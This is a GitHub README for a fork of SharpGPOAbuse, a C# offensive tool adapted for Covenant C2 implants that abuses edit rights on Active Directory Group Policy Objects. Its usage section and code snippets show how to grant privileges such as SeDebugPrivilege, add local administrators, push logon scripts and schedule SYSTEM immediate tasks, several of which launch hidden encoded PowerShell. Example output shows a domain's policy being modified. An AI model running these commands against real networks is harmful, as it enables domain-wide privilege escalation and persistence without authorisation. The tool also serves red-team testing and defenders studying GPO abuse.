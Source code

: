 # SharpGPOAbuse

SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.f-secure.com/tools/sharpgpoabuse](https://labs.f-secure.com/tools/sharpgpoabuse)

This fork of a fork provides some modifications for use with Covenant's Grunts. The most notable changes are removing the `Environment.Exit()` calls that will kill a Grunt (since they do not create sacrificial processes for post-ex jobs), removing the dependency for CommandLineParser, and the implementation of a custom parser. Because Covenant splits on spaces, the Assembly will combine all arguments and attempt to parse out options based on equal signs. For this reason, arguments are passed via `specialkeyword=Any Value`. There may be edge cases with the parser but the Assembly will tell you which options it interpreted.

## Compile Instructions

SharpGPOAbuse has been built against .NET 3.5 and is compatible with Visual Studio 2017 & 2019. Simply open the solution file and build the project.

## Usage

You can use the following CLI interface. The Assembly attempts to parse out options based on equal signs and special keywords so you do not need to (and should not) escape anything or use quotes.

```
SharpGPOAbuse (Friendly Fork)

  AddNewRights:
    SharpGPOAbuse.exe attack=AddNewRights gponame=Vuln GPO useraccount=SomeAccount userrights=someright1,someright2,someright3
  NewLocalAdmin:
    SharpGPOAbuse.exe attack=NewLocalAdmin gponame=Vuln GPO useraccount=SomeAccount
  NewStartupScript:
    SharpGPOAbuse.exe attack=NewStartupScript gponame=Vuln GPO scriptname=ScriptName scriptcontent=my script content type=User
  NewImmediateTask:
    SharpGPOAbuse.exe attack=NewImmediateTask gponame=Vuln GPO author=NT AUTHORITY\SYSTEM taskname=My Special Task command=C:\some\path\to.exe arguments=some cli args type=Computer
```

## Attacks Types

Currently SharpGPOAbuse supports the following options:

| Option                                                            | Description                          |
| ----------------------------------------------------------------- | ------------------------------------ |
| [AddUserRights](#adding-user-rights)                              | Add rights to a user                 |
| [AddLocalAdmin](#adding-a-local-admin)                            | Add a user to the local admins group |
| [AddComputerScript](#configuring-a-user-or-computer-logon-script) | Add a new computer startup script    |
| [AddUserScript](#configuring-a-user-or-computer-logon-script)     | Configure a user logon script        |
| [AddComputerTask](#configuring-a-computer-or-user-immediate-task) | Configure a computer immediate task  |
| [AddUserTask](#configuring-a-computer-or-user-immediate-task)     | Add an immediate task to a user      |

## Attack Options

### Adding User Rights

```c#
string[] UserRights = { "", "" };
string UserAccount = "";
string GPOName = "";

UserRightAssignment.AddNewRights(DomainName, DomainController, GPOName, DistinguishedName, UserRights, UserAccount);
```

`UserRights` can be any of the following:

```
SeTrustedCredManAccessPrivilege, SeNetworkLogonRight, SeTcbPrivilege, SeMachineAccountPrivilege, SeIncreaseQuotaPrivilege, SeInteractiveLogonRight, SeRemoteInteractiveLogonRight, SeBackupPrivilege, SeChangeNotifyPrivilege, SeSystemtimePrivilege, SeTimeZonePrivilege, SeCreatePagefilePrivilege, SeCreateTokenPrivilege, SeCreateGlobalPrivilege, SeCreatePermanentPrivilege, SeCreateSymbolicLinkPrivilege, SeDebugPrivilege, SeDenyNetworkLogonRight, SeDenyBatchLogonRight, SeDenyServiceLogonRight, SeDenyInteractiveLogonRight, SeDenyRemoteInteractiveLogonRight, SeEnableDelegationPrivilege, SeRemoteShutdownPrivilege, SeAuditPrivilege, SeImpersonatePrivilege, SeIncreaseWorkingSetPrivilege, SeIncreaseBasePriorityPrivilege, SeLoadDriverPrivilege, SeLockMemoryPrivilege, SeBatchLogonRight, SeServiceLogonRight, SeSecurityPrivilege, SeRelabelPrivilege, SeSystemEnvironmentPrivilege, SeManageVolumePrivilege, SeProfileSingleProcessPrivilege, SeSystemProfilePrivilege, SeUndockPrivilege, SeAssignPrimaryTokenPrivilege, SeRestorePrivilege, SeShutdownPrivilege, SeSyncAgentPrivilege, SeTakeOwnershipPrivilege
```

### Adding a Local Admin

```c#
string UserAccount = "";
string GPOName = "";

LocalAdmin.NewLocalAdmin(UserAccount, DomainName, DomainController, GPOName, DistinguishedName, false);
```

### Configuring a User or Computer Logon Script

```c#
string ScriptName = "Startup.bat";
string ScriptContent = "powershell.exe -Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

StartupScript.NewStartupScript(ScriptName, ScriptContent, DomainName, DomainController, GPOName, DistinguishedName, "User");
```

### Configuring a Computer or User Immediate Task

```c#
string TaskName = "";
string Author = "NT AUTHORITY\\SYSTEM";
string Command = "powershell.exe";
string Arguments = "-Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

ScheduledTask.NewImmediateTask(DomainName, DomainController, GPOName, DistinguishedName, TaskName, Author, Arguments, Command, false, "Computer");
```

## Example Output

```
[+] Domain = prod.zeropointsecurity.local
[+] Domain Controller = tf-win-dc02.prod.zeropointsecurity.local
[+] Distinguished Name = CN=Policies,CN=System,DC=prod,DC=zeropointsecurity,DC=local
[+] GUID of Server Baseline is: {205F0E03-17C3-4E9B-925E-330FAD565CA1}
[+] Creating new startup script...
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new startup script. Wait for the GPO refresh cycle.
[+] Done!
```
